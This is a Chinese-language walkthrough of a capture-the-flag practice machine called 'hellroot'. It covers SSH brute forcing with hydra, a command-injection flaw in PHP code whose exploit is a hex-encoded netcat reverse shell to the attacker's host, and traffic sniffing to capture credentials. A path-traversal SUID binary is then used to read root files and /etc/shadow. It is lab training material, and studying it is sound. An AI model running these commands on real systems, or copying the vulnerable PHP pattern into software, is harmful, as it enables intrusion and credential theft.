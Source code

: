 好的，这是根据您提供的思路和要求优化后的文章。

# **一、信息收集**

首先，对目标网段进行主机发现。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.144 08:00:27:d0:16:be       PCS Systemtechnik GmbH
...
```

确定目标主机IP为 `192.168.205.144` 后，对其进行全端口扫描，发现开放了多个服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.144
...
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
222/tcp  open  rsh-spx
443/tcp  open  https
5000/tcp open  upnp
...
```

# **二、捷径：SSH爆破**

在深入探索之前，发现了一个极其简单的提权路径。通过对SSH服务进行弱口令爆破，可以迅速获得root权限。

准备一个简单的用户字典：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ echo 'root\nadmin\n' > user
```

使用`hydra`工具和一个常用密码字典（此处为`5000q.txt`）进行爆破：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -L user -P 5000q.txt ssh://192.168.205.144 -f -I -u -e nsr -t 64 
...
[22][ssh] host: 192.168.205.144   login: root   password: 12345
...
```

成功爆破出root用户的密码为 `12345`。直接登录即可完成靶机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh root@192.168.205.144
...
root@hellroot:~# cat /home/astro/user.txt /root/root.txt 
f220dcf45ccfc10c4c44ea8c413186f2
f039facf1ae0d69b07484df1c4da32df
```

# **三、常规路径：Web渗透**

接下来，我们探索预设的、更具挑战性的攻击路径。

## **1. Gitea代码审计**

访问目标80端口，页面为Apache默认页，无可用信息。访问443端口，发现页面跳转至 `git.hellroot.thl`。我们将此域名与目标IP绑定到 `/etc/hosts` 文件中。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ tail -n 1 /etc/hosts
192.168.205.144 git.hellroot.thl
```

重新访问 `https://git.hellroot.thl`，发现是一个 Gitea 服务（版本1.24.3）。其中存在一个名为 `Astro/hellroot.thl` 的公开代码仓库。

在仓库的 `Dockerfile` 文件中，发现了一组凭据：`astro:iloveastro`。

在 `index.php` 文件中，我们审计到一段存在命令执行漏洞的代码。该代码运行在5000端口。

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST' && !empty($_POST['domain'])) {
    $input = trim($_POST['domain']);
    $decoded = @hex2bin($input);

    // ...

    if ($decoded !== false && ctype_print($decoded)) {
        if (strpos($decoded, ';') !== false) {
            // Remove header modification that breaks execution
            $output = shell_exec($decoded . ' 2>&1'); // 存在命令注入
        } else {
            $safeDomain = escapeshellarg($decoded);
            $output = shell_exec("nslookup $safeDomain 2>&1");
        }
    } else {
        // ...
    }
    // ...
}
?>
```

代码逻辑显示，如果POST请求的`domain`参数经过十六进制解码后包含分号`;`，则会直接拼接到`shell_exec`函数中执行，造成远程命令执行（RCE）漏洞。

## **2. RCE漏洞利用**

我们可以将任意命令转换为十六进制字符串来绕过过滤并执行。首先，测试`id;`命令，其十六进制为`69643b`。在5000端口的服务上提交该payload，成功执行。

为了获取一个交互式Shell，我们构造一个反弹Shell的payload。目标主机存在`nc`，因此使用`nc`进行反弹。

**Payload**: `nc 192.168.205.128 8888 -e /bin/bash;`
**Hex编码**: `6e63203139322e3136382e3230352e3132382038383838202d65202f62696e2f626173683b`

在Kali上开启监听，并提交上述Payload，成功接收到反弹Shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888                 
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.144] 59278
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

当前用户为 `www-data`，这是一个Docker容器内的低权限用户。

# **四、Docker内提权与流量嗅探**

在当前目录下发现一个提示文件`sniff.txt`，内容为西班牙语，意为“有些工具可以让你嗅探流量”。同时在`.config/dpkg-l.txt`文件中发现系统安装了`tcpdump`。

这提示我们需要进行流量抓包。使用之前在`Dockerfile`中找到的密码 `astro:iloveastro` 切换到`astro`用户。

```bash
www-data@05cc10128c04:/var/www/html$ su astro
Password: iloveastro
$
```

查看`astro`用户的`sudo`权限，发现其可以无密码切换到root。

```bash
astro@05cc10128c04:/var/www/html$ sudo -l
...
User astro may run the following commands on 05cc10128c04:
    (ALL : ALL) NOPASSWD: /bin/su
```

切换到root用户，并使用`tcpdump`在`eth0`网卡上进行抓包。

```bash
astro@05cc10128c04:/var/www/html$ sudo su
root@05cc10128c04:/var/www/html# tcpdump -i eth0 -A -w /tmp/a.pcap
```

让`tcpdump`运行一段时间后，将抓取到的数据包`a.pcap`传送到Kali攻击机进行分析。

使用Wireshark打开`a.pcap`，通过HTTP协议过滤器，发现一个POST请求，其中包含一个登录凭据。这很可能是主机上的定时任务在执行。

*   **username**: `astro`
*   **password**: `wj2UI4f207RC58nNx31gBUiBYSPEK27JxvRNBYbP6UWZpqeoWS`

# **五、主机提权**

我们获得了主机`astro`用户的密码，现在可以从Docker容器横向移动到主机系统。

使用新密码SSH登录主机：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh astro@192.168.205.144
...
astro@hellroot:~$ 
```

登录后，寻找提权方法。首先检查SUID文件。

```bash
astro@hellroot:~$ find / -perm -4000 -type f 2>/dev/null
...
/usr/local/bin/secmonitor
/usr/local/bin/logview
...
```

发现两个可疑的自定义SUID程序：`secmonitor`和`logview`。逐一进行测试。

`logview`程序用于查看日志文件，但其实现存在目录穿越漏洞。程序会将用户输入的文件名拼接到`/var/log/`目录下，但未对`../`进行过滤。

```bash
astro@hellroot:~$ /usr/local/bin/logview /root/root.txt
[logview] Running with administrative privileges
Displaying log: /var/log//root/root.txt
fopen: No such file or directory
```

利用目录穿越漏洞，我们可以读取任意文件，例如`root.txt`。

```bash
astro@hellroot:~$ /usr/local/bin/logview ../../../root/root.txt
[logview] Running with administrative privileges
Displaying log: /var/log/../../../root/root.txt
f039facf1ae0d69b07484df1c4da32df
```

同理，我们可以读取 `/etc/shadow` 文件，获取所有用户的密码哈希。将root用户的哈希进行破解，可以得到密码为`12345`，与最初SSH爆破的结果一致。至此，通过常规路径也成功获取了root权限。